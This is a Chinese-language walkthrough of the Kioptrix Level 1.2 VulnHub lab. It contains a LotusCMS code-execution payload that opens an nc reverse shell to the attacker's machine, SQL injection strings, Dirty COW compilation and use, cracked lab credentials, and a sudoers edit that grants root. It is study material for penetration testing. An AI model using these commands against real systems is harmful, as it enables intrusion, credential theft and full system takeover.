# 前言

### 靶场信息

**靶机IP**： 192.168.200.156

**靶机介绍：** https://www.vulnhub.com/entry/kioptrix-level-12-3,24/

**下载（镜像）：**[https://download.vulnhub.com/kioptrix/KVM3.rar](https://download.vulnhub.com/kioptrix/KVM3.rar)

>注意：**这项挑战的关键**在于：找到 IP 地址（DHCP 客户端）后，编辑 hosts 文件并将其指向**kioptrix3.com。**

### 思维导图



---
# 1. 信息收集

## 1.1 Nmap 信息扫描
### 端口扫描

```bash
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

### 详细信息

```bash
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 4.7p1 Debian 8ubuntu1.2 (protocol 2.0)
| ssh-hostkey: 
|   1024 30:e3:f6:dc:2e:22:5d:17:ac:46:02:39:ad:71:cb:49 (DSA)
|_  2048 9a:82:e6:96:e4:7e:d6:a6:d7:45:44:cb:19:aa:ec:dd (RSA)
80/tcp open  http    Apache httpd 2.2.8 ((Ubuntu) PHP/5.2.4-2ubuntu5.6 with Suhosin-Patch)
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-title: Ligoat Security - Got Goat? Security ...
|_http-server-header: Apache/2.2.8 (Ubuntu) PHP/5.2.4-2ubuntu5.6 with Suhosin-Patch
MAC Address: 00:0C:29:EC:A5:EE (VMware)
```

### 漏洞扫描

漏洞扫描花了很长时间，但是回看扫描结果，这里提示了网站存在的 SQL 注入我没有测试出来。

```bash
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
|_http-trace: TRACE is enabled
| http-sql-injection: 
|   Possible sqli for queries:
|     http://192.168.200.156:80/index.php?page=index%27%20OR%20sqlspider
|     http://192.168.200.156:80/index.php?page=index%27%20OR%20sqlspider
|     http://192.168.200.156:80/index.php?page=index%27%20OR%20sqlspider
|     http://192.168.200.156:80/index.php?page=index%27%20OR%20sqlspider
|     http://192.168.200.156:80/index.php?page=loginSubmit%27%20OR%20sqlspider&system=Admin
|     http://192.168.200.156:80/index.php?page=index%27%20OR%20sqlspider
|     http://192.168.200.156:80/index.php?page=index%27%20OR%20sqlspider
|     http://192.168.200.156:80/index.php?page=index%27%20OR%20sqlspider
|     http://192.168.200.156:80/index.php?page=index%27%20OR%20sqlspider
|     http://192.168.200.156:80/index.php?page=index%27%20OR%20sqlspider
|_    http://192.168.200.156:80/index.php?page=loginSubmit%27%20OR%20sqlspider&system=Admin
| http-slowloris-check: 
|   VULNERABLE:
|   Slowloris DOS attack
|     State: LIKELY VULNERABLE
|     IDs:  CVE:CVE-2007-6750
|       Slowloris tries to keep many connections to the target web server open and hold
|       them open as long as possible.  It accomplishes this by opening connections to
|       the target web server and sending a partial request. By doing so, it starves
|       the http server's resources causing Denial Of Service.
|       
|     Disclosure date: 2009-09-17
|     References:
|       http://ha.ckers.org/slowloris/
|_      https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2007-6750
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-vuln-cve2017-1001000: ERROR: Script execution failed (use -d to debug)
|_http-stored-xss: Couldn't find any stored XSS vulnerabilities.
|_http-dombased-xss: Couldn't find any DOM based XSS.
| http-csrf: 
| Spidering limited to: maxdepth=3; maxpagecount=20; withinhost=192.168.200.156
|   Found the following possible CSRF vulnerabilities: 
|     
|     Path: http://192.168.200.156:80/gallery/
|     Form id: 
|     Form action: login.php
|     
|     Path: http://192.168.200.156:80/index.php?system=Admin
|     Form id: contactform
|     Form action: index.php?system=Admin&page=loginSubmit
|     
|     Path: http://192.168.200.156:80/index.php?system=Blog&post=1281005380
|     Form id: commentform
|     Form action: 
|     
|     Path: http://192.168.200.156:80/gallery/index.php
|     Form id: 
|     Form action: login.php
|     
|     Path: http://192.168.200.156:80/gallery/gadmin/
|     Form id: username
|     Form action: index.php?task=signin
|     
|     Path: http://192.168.200.156:80/index.php?system=Admin&page=loginSubmit
|     Form id: contactform
|_    Form action: index.php?system=Admin&page=loginSubmit
| http-enum: 
|   /phpmyadmin/: phpMyAdmin
|   /cache/: Potentially interesting folder
|   /core/: Potentially interesting folder
|   /icons/: Potentially interesting folder w/ directory listing
|   /modules/: Potentially interesting directory w/ listing on 'apache/2.2.8 (ubuntu) php/5.2.4-2ubuntu5.6 with suhosin-patch'
|_  /style/: Potentially interesting folder
MAC Address: 00:0C:29:EC:A5:EE (VMware)
```

---
## 1.2 Web信息收集

Web 渗透方面，我先去探测一下目录扫描，在等待结果的同时，去对主页的一些结构和源码进行简单的测试分析。

### 页面探测

#### 主页

访问网站主目录，像是一个 Blog 的界面，告诉我们他们开发了一个 CMS，然后这个页面是他们用来公布内容的 Blog 上

**页面关键信息摘录：**

- URL：`http://192.168.200.156/index.php?page=index`

- 站点名称：Ligoat Security

- 可见功能入口：首页 / 博客 / 后台登录

- LFI 测试无效



> 实际这里存在一个 SQL 注入，可使用 `' or 1=2 -- - ` 让页面报错。（当时没测出来，看了 Nmap 才知道）
> 

---
#### 后台登录页

- **URL**：`http://192.168.200.156/index.php?system=Admin`

- 万能密码简单测试无效

- **关键发现**：页面底部版权信息显示 `Proudly Powered by: LotusCMS`



> **待跟进（权限立足阶段）**：查询 LotusCMS 已知 CVE / 公开 EXP

---
#### 留言板

页面存在文本输入框，疑似可注入点（update 注入待验证），目前优先级没前几个页面高，没有测试，可以留做备用突破点

**URL:** `http://192.168.200.156/index.php?system=Blog&post=1281005380`


### 目录扫描

工具：Dirsearch

```bash
[08:48:19] 403 -  333B  - /.httr-oauth
[08:48:27] 301 -  357B  - /cache  ->  http://192.168.200.156/cache/
[08:48:28] 200 -  688B  - /core/fragments/moduleInfo.phtml
[08:48:28] 301 -  356B  - /core  ->  http://192.168.200.156/core/
[08:48:28] 403 -  326B  - /data
[08:48:28] 403 -  327B  - /data/
[08:48:28] 403 -  338B  - /data/adminer.php
[08:48:28] 403 -  338B  - /data/autosuggest
[08:48:28] 403 -  335B  - /data/backups/
[08:48:28] 403 -  333B  - /data/cache/
[08:48:28] 403 -  333B  - /data/debug/
[08:48:28] 403 -  351B  - /data/DoctrineORMModule/cache/
[08:48:28] 403 -  332B  - /data/logs/
[08:48:28] 403 -  351B  - /data/DoctrineORMModule/Proxy/
[08:48:28] 403 -  333B  - /data/files/
[08:48:28] 403 -  336B  - /data/sessions/
[08:48:28] 403 -  331B  - /data/tmp/
[08:48:30] 200 -   23KB - /favicon.ico
[08:48:31] 301 -  359B  - /gallery  ->  http://192.168.200.156/gallery/
[08:48:35] 301 -  359B  - /modules  ->  http://192.168.200.156/modules/
[08:48:35] 200 -    2KB - /modules/
[08:48:38] 301 -  362B  - /phpmyadmin  ->  http://192.168.200.156/phpmyadmin/
[08:48:39] 401 -  521B  - /phpmyadmin/scripts/setup.php
[08:48:39] 200 -    8KB - /phpmyadmin/
[08:48:39] 200 -    8KB - /phpmyadmin/index.php
[08:48:41] 403 -  335B  - /server-status
[08:48:41] 403 -  336B  - /server-status/
[08:48:43] 301 -  357B  - /style  ->  http://192.168.200.156/style/
[08:48:45] 200 -   18B  - /update.php
```

**人工筛选** 

```bash
=== 状态码 200（高利用价值）
http://192.168.200.156/update.php		# 升级脚本
http://192.168.200.156/phpmyadmin/		# phpMyAdmin 登入界面
http://192.168.200.156/favicon.ico		# 网站图标，可通过计算 Hash 值（如 mmh3）来识别 CMS 或 Web 框架类型

=== 状态码 301/302（重定向）
http://192.168.200.156/phpmyadmin -> http://192.168.200.156/phpmyadmin/
http://192.168.200.156/core -> http://192.168.200.156/core/
http://192.168.200.156/gallery -> http://192.168.200.156/gallery/
http://192.168.200.156/style -> http://192.168.200.156/style/
http://192.168.200.156/cache -> http://192.168.200.156/cache/
```

---
# 2. 权限立足

在登入界面看到提示  （Proudly Powered by: [LotusCMS](http://www.lotuscms.org)）, 结合网站主页底部 @2011 缩小范围，上网搜寻 EXP 和 POC。

---
## 2.1 操作过程思维导图


---
## 2.2 漏洞情报收集

**相关文章链接：**

- https://nvd.nist.gov/vuln/detail/CVE-2011-0518

- https://www.exploit-db.com/exploits/18565

- https://www.exploit-db.com/exploits/16982

- https://www.infosecmatter.com/metasploit-module-library/?mm=exploit/multi/http/lcms_php_exec

**EXP:**

- https://github.com/murhussain/Mur-Kioptrix-LotusCMS-Exploit

- https://github.com/nguyen-ngo/LotusCMS-3.0-RCE-exploit

- https://www.exploit-db.com/exploits/15964
---
## 2.3 漏洞利用

### 执行 payload

```bash
curl -X POST "http://192.168.200.156/index.php" \
-d "page=index');\${passthru('nc -e /bin/bash 192.168.200.142 4444')};//"
```

### 连接反弹 shell 



---
# 3. 提权

## 3.1 信息收集

### 获得 www-data 的反弹 shell 后，提升交互方式：

```bash
┌──(kali㉿kali)-[~]
└─$ sudo nc -lvnp 4444                                                
listening on [any] 4444 ...
connect to [192.168.200.142] from (UNKNOWN) [192.168.200.156] 47095

# 提升交互式 Shell
python -c 'import pty;pty.spawn("/bin/bash")'
www-data@Kioptrix3:/home/www/kioptrix3.com$ 
```

### 系统层信息枚举：

```bash
www-data@Kioptrix3:/home/www/kioptrix3.com$ whoami
www-data

www-data@Kioptrix3:/home/www/kioptrix3.com$ uname -a
Linux Kioptrix3 2.6.24-24-server #1 SMP Tue Jul 7 20:21:17 UTC 2009 i686 GNU/Linux
```

### 有效提权信息列举：

```bash
# 列出具有 SUID 权限的用户
www-data@Kioptrix3:/home/www/kioptrix3.com$ find / -perm -u=s -type f 2>/dev/null
<w/kioptrix3.com$ find / -perm -u=s -type f 2>/dev/null                      
/usr/lib/eject/dmcrypt-get-device
/usr/lib/openssh/ssh-keysign
# ... 省略一些内容，无有效利用信息
/bin/umount
/bin/ping6
/bin/su

# 查看计划任务
www-data@Kioptrix3:/home/www/kioptrix3.com$ cat /etc/crontab
SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user  command
17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
25 6    * * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6    * * 7   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6    1 * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
#
```

---
## 3.2 敏感信息泄露（补充枚举）

在着手内核提权前，对 Web 目录的配置文件进行了排查，成功收集到了数据库的高权限凭据：

```bash
www-data@Kioptrix3:/home/www/kioptrix3.com$ find . -name "*conf*"
./gallery/gconfig.php
# ...省略部分输出...

www-data@Kioptrix3:/home/www/kioptrix3.com$ cat ./gallery/gconfig.php
# 提取出数据库连接凭据
$GLOBALS["gallarific_mysql_server"] = "localhost";
$GLOBALS["gallarific_mysql_database"] = "gallery";
$GLOBALS["gallarific_mysql_username"] = "root";
$GLOBALS["gallarific_mysql_password"] = "fuckeyou";
```

>同时记录到可能的管理员凭据组合：`admin | n0t7t1k4`。这些凭据可作为提权失败时的备用横向/纵向移动手段。



---
## 3.3 内核漏洞提权

由于在 SUID 权限和计划任务的信息收集上没有找到有效信息，我决定使用内核提权来获得 Root Shell。针对内核 `2.6.24`，在攻击机搜索可用的漏洞利用代码，锁定目标为 Dirty COW 提权系列。

```bash
┌──(kali㉿kali)-[~/vulnhub/Kioptrix1.2]
└─$ searchsploit linux kernel 2.6.24 | grep "Dirty COW"
Linux Kernel 2.6.22 < 3.9 - 'Dirty COW /proc/self/mem' Race Condition Privilege Esca | linux/local/40616.c
Linux Kernel 2.6.22 < 3.9 - 'Dirty COW' 'PTRACE_POKEDATA' Race Condition Privilege Escalation  | linux/local/40839.c
```

---
### **踩坑记录：40616.c 编译失败** 

首先尝试了 `40616.c`，但在靶机上编译时触发了大量结构体未定义的报错（`invalid use of undefined type 'struct stat'`）。由于靶机环境过于老旧，缺失必要的头文件依赖，果断放弃该 EXP，换用兼容性更好的 **40839.c**。

```bash
# 无法编译

www-data@Kioptrix3:/tmp$ gcc 40839.c -o exp
gcc 40839.c -o exp
40839.c:193:2: warning: no newline at end of file
/tmp/ccgHdB72.o: In function `generate_password_hash':
40839.c:(.text+0x16): undefined reference to `crypt'
/tmp/ccgHdB72.o: In function `main':
40839.c:(.text+0x4be): undefined reference to `pthread_create'
40839.c:(.text+0x4f4): undefined reference to `pthread_join'
collect2: ld returned 1 exit status
```

---
### 实际操作步骤

#### 1. 攻击机准备与分发

```bash
searchsploit -m linux/local/40839.c

python3 -m http.server 8081
```

#### 2. 靶机下载与编译修复

在靶机 `/tmp` 目录下载 EXP 并进行编译。**注意**：直接使用 `gcc` 会因为缺少线程库和加密库导致链接失败。

```bash
www-data@Kioptrix3:/tmp$ wget http://192.168.200.142:8081/40839.c

# 第一次常规编译尝试（失败）
www-data@Kioptrix3:/tmp$ gcc 40839.c -o exp
/tmp/ccgHdB72.o: In function `generate_password_hash': undefined reference to `crypt'
/tmp/ccgHdB72.o: In function `main': undefined reference to `pthread_create'

# 添加必要的库参数进行编译（成功）
www-data@Kioptrix3:/tmp$ gcc -pthread 40839.c -o exp -lcrypt
```

>_注：`-pthread` 用于链接多线程库以触发竞争条件，`-lcrypt` 用于链接加密库以生成 `/etc/passwd` 中的密码哈希。_

#### 3. 执行利用与权限验证

```bash
www-data@Kioptrix3:/tmp$ ./exp
/etc/passwd successfully backed up to /tmp/passwd.bak
Please enter the new password: [输入自定密码]

Complete line:
firefart:figsoZwws4Zu6:0:0:pwned:/root:/bin/bash

# 切换至覆写产生的特权账户
www-data@Kioptrix3:/tmp$ su firefart
Password: [输入自定密码]

firefart@Kioptrix3:/tmp# id
uid=0(firefart) gid=0(root) groups=0(root)
firefart@Kioptrix3:/tmp# whoami
firefart
```

至此，Dirty COW 利用成功，成功获取最高系统权限。检查 `/etc/shadow` 确认系统已被完全接管。



---
## 提权路线思维导图


# 4. 总结

这台靶机整体上我认为是偏简单的，我通过两个 exp 直接拿下。不过对于整个打靶思维来说，我的判断不够明确——我是在看到红笔视频标题里 CMS 那个关键词的一刻，才觉得去利用 exp 获得 Web Shell。在此之前，我一直想通过网站本身的探测去拿下 Web Shell，感觉这方面的思路不太行。

**回顾整个打靶过程：**

**1. 信息收集阶段**

首先进行了常规端口扫描、详细信息扫描和漏洞扫描，但漏洞扫描比较慢。同时也对网页主目录进行了探测，发现它可能是一个类似于博客的网站。

**2. 漏洞探测阶段**

主页看上去存在文件包含或 SQL 注入的可能。这里有一个我没探测出来的点——网站其实是存在 SQL 注入的，但我测试的时候没整出报错。这是我要注意的一个点：`' or 1=2` 之类的报错方式是我当时没想到的。

同时也进行了目录扫描，扫描到了 phpMyAdmin 的入口。

**3. 获取 Web Shell 阶段**

通过 exp 拿到了 Web Shell，并通过 Web Shell 登录了 MySQL 数据库（也可以通过扫描到的 phpMyAdmin 登录 MySQL 数据库）。

**4. 提权阶段（我的做法 vs 靶场预期做法）**

- **我的做法**：直接用 Dirty COW 内核漏洞对 Linux 主机进行提权。
- **靶场作者预期的做法**：拿到 Web Shell 后，对整个配置文件进行查询，最终找到 MySQL 的配置文件。登录数据库后，能发现 3 对密码，然后对这些密码进行破解，尝试是否可以作为 SSH 密码——最终得到一个权限比 www-data 更高的用户，再通过这个用户去进行后续的提权操作。


# 5. 补充

### 为什么 gallery 目录有价值

#### 1. 它是一个独立的 CMS 应用

从首页源码里可以看到：

```
"We've revamped our website for the new release of the new gallery CMS we made"
```

网站自己说了这是他们开发的 gallery 系统，**独立应用 = 独立数据库配置**。

#### 2. 任何 Web 应用都需要连接数据库

Gallery 要存图片信息、用户账号，就必须有一个配置文件告诉它：

```
数据库在哪 / 用户名是什么 / 密码是什么
```

这个配置文件几乎 100% 存在。

#### 3. 配置文件命名有规律

常见名字就那几个：

```
config.php
gconfig.php
database.php
db.php
settings.php
```

开发者习惯性命名，很好猜。

---

### 更通用的渗透思维

拿到 Web Shell 之后，找密码的优先级顺序：

```
1. 数据库配置文件  ← 明文密码，最直接
2. 用户目录下的 .bash_history  ← 可能有人敲过密码
3. /etc/passwd 和 shadow  ← 系统账号
4. 应用的 session / log 文件  ← 可能泄露信息
```

**核心逻辑：开发者为了让程序自动连接数据库，密码必须以明文或可逆方式存在某个文件里。** 这是 Web 渗透中最稳定的信息来源之一。


# 6. 红笔追加操作（新提权方式）

发现 CMS 可以在 CLI 中用 searchsploit 查，这样我觉得会更快一点。



具体的利用文章可以用 Google 和 GitHub 去搜索 `<cms> exploit`


拿下 Web Shell 后网页后台的看到有用的目录，这里可以去访问这个后台，也就是说 phpMyAdmin 中的密码应该对应的是这个，不是登入也的那个我就说怎么一直登入不进去，回去尝试一下。



试试这个 phpMyAdmin 的密码是不是可以直接登录 SSH 用户的密码.

```bash
ssh -o "HostKeyAlgorithms=+ssh-rsa" loneferret@192.168.200.156
```



## 6.1 数据库深度挖掘与凭据复用

在 Web 目录发现 `gallery` 相关的配置文件后，顺藤摸瓜进入 MySQL 数据库，寻找可横向移动的凭据。

**数据库枚举：**

```sql
mysql> show databases;
show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema | 
| gallery            | 
| mysql              | 
+--------------------+
3 rows in set (0.00 sec)
mysql> use gallery;
use gallery;
Database changed
mysql> show tables;
show tables;
+----------------------+
| Tables_in_gallery    |
+----------------------+
| dev_accounts         | 
| gallarific_comments  | 
| gallarific_galleries | 
| gallarific_photos    | 
| gallarific_settings  | 
| gallarific_stats     | 
| gallarific_users     | 
+----------------------+
7 rows in set (0.00 sec)
```

在 `dev_accounts` 和 `gallarific_users` 表中成功提取到高价值账户信息：

```sql
mysql> select * from dev_accounts;
select * from dev_accounts;
+----+------------+----------------------------------+
| id | username   | password                         |
+----+------------+----------------------------------+
|  1 | dreg       | 0d3eccfb887aabd50f243b3f155c0f85 | 
|  2 | loneferret | 5badcaf789d3d1d09794d8f021f40f0e | 
+----+------------+----------------------------------+
2 rows in set (0.00 sec)

mysql> select * from gallarific_users;
select * from gallarific_users;
+--------+----------+----------+-----------+-----------+----------+-------+------------+---------+-------------+-------+----------+
| userid | username | password | usertype  | firstname | lastname | email | datejoined | website | issuperuser | photo | joincode |
+--------+----------+----------+-----------+-----------+----------+-------+------------+---------+-------------+-------+----------+
|      1 | admin    | n0t7t1k4 | superuser | Super     | User     |       | 1302628616 |         |           1 |       |          | 
+--------+----------+----------+-----------+-----------+----------+-------+------------+---------+-------------+-------+----------+
1 row in set (0.00 sec)
```

每一步拿到新的信息之后，都要权衡这个信息的优先级，对比之前操作的优先级，哪一步重要，哪一步不重要。
泄露出来的用户和密码在 Web 页面起到了什么作用？还是靶机作者故意留下的一个引入点

**密码破解：**

>starwars         (loneferret)
>Mast3r           (dreg)     

## 6.2 SSH 横向移动与环境破局

拿到系统用户的明文密码后，尝试直接通过 SSH 登录系统。

**踩坑记录：老旧 SSH 算法不兼容** 

由于靶机系统极老（Ubuntu 9.04），现代 Kali 的 SSH 客户端默认禁用了不安全的 RSA 密钥算法，直接连接会报错。需要追加 `-o "HostKeyAlgorithms=+ssh-rsa"` 参数强制放行：

```bash
┌──(kali㉿kali)-[~/vulnhub/kioptrix1.2]
└─$ ssh -o "HostKeyAlgorithms=+ssh-rsa" loneferret@192.168.200.165
loneferret@192.168.200.165's password: # 输入 starwars
...
loneferret@Kioptrix3:~$ id
uid=1000(loneferret) gid=100(users) groups=100(users)
```

成功以 `loneferret` 身份登入系统，完成横向移动。

## 6.3 预期提权点：Sudo 配置逻辑漏洞

登入后，在用户家目录下发现了一封极具提示性的“公司内部信件”：

```bash
loneferret@Kioptrix3:~$ cat CompanyPolicy.README
Hello new employee,
It is company policy here to use our newly installed software for editing, creating and viewing files.
Please use the command 'sudo ht'.
Failure to do so will result in you immediate termination.

DG
CEO
```

这封信件几乎是在“明示”靶机作者留下的后门。验证当前用户的 `sudo` 权限：

```bash
loneferret@Kioptrix3:~$ sudo -l
User loneferret may run the following commands on this host:
    (root) NOPASSWD: !/usr/bin/su      # 靶机作者刻意封堵了直接 su 提权
    (root) NOPASSWD: /usr/local/bin/ht # 留下了无需密码的 ht 编辑器最高权限
```

**提权方向明确**：由于 HT 编辑器具有最高权限，可以直接使用 HT 编辑器修改 sudo 权限配置.

## 6.4 提权操作

1.运行 `sudo ht` 启动编辑器。

```bash
sudo ht
```

2.编辑 `/etc/sudoers` 文件，在末尾追加提权规则：

```bash
loneferret ALL=(ALL) NOPASSWD: /bin/bash
```

